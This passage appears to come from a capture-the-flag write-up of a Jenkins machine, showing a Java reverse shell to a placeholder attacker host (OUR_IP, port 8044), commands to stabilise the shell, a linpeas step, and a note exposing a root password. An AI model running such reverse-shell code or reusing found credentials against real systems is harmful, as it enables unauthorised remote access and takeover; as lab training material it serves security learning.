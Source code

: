 ```java
String host="OUR_IP";
int port=8044;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```


Once we run this on the console, we get a reverse shell:

![Pasted image 20250529145512.png](../../IMAGES/Pasted%20image%2020250529145512.png)

Let's stabilize our shell once again:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

We can use `linpeas` again:

![Pasted image 20250529145945.png](../../IMAGES/Pasted%20image%2020250529145945.png)

Once again, in `/opt` we got a note:

```
jenkins@jenkins:/tmp$ cat /opt/note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here. Use them if you
need access to the root user account.

root:tr0ub13guM!@#123
```
